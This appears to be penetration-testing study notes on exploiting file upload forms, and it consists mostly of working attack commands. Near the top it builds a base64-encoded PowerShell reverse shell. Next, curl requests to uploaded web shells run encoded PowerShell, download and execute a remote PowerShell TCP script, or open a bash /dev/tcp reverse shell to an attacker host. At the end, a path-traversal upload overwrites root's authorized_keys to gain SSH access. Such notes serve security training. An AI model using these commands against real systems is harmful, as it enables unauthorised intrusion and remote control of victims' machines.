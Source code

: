 ```
PS>$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.xx.<kali>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
PS>exit

powershell -enc JABjAG........
curl http://192.168.xx.<victim>/example/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20ABjAGwAaQBlAG4AdAAgAD0AIABOAGUAd

or
curl http://192.168.xx.<victim>/styles/cmd.php --data-urlencode 'cmd=powershell -c iex (iwr -UseBasicParsing http://192.168.xx.<kali>/Invoke-PowerShellTcp.ps1)'

linux
curl http://192.168.xx.<victim>/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/192.168.xx.<kali>/4444 0>%261"'

/config.php?cmd=id

### Using Non-Executable Files

When testing a file upload form, we should always determine what happens when a file is uploaded twice. If the web application indicates that the file already exists, we can use this method to brute force the contents of a web server. Alternatively, if the web application displays an error message, this may provide valuable information such as the programming language or web technologies in use.

Apache,nginx use user www-data
Microsoft IIS 7.5 and up use Network Service account, a passwordless built-in Windows identity with low privileges

Let's try to overwrite the authorized_keys file in the home directory for root. If this file contains the public key of a private key we control, we can access the system via SSH as the root user. 

kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in fileup
Your public key has been saved in fileup.pub
...
chmod 600 fileup
kali@kali:~$ cat fileup.pub > authorized_keys

#to try it out curl http://192.168.xx.<victim>:7777/root/.ssh/authorized_keys --upload-file broker.pub

rm ~/.ssh/known_hosts
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" root@192.168.xx.<victim>

we replace/overwrite permission authorized_keys with our pub
file upload
filename="../../../../../../../../../../../../../../../../root/.ssh/authorized_keys"

┌──(kali㉿kali)-[~/Desktop]
└─$ ssh root@192.168.xx.<victim> -i ~/.ssh/fileup -p 2222 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"
```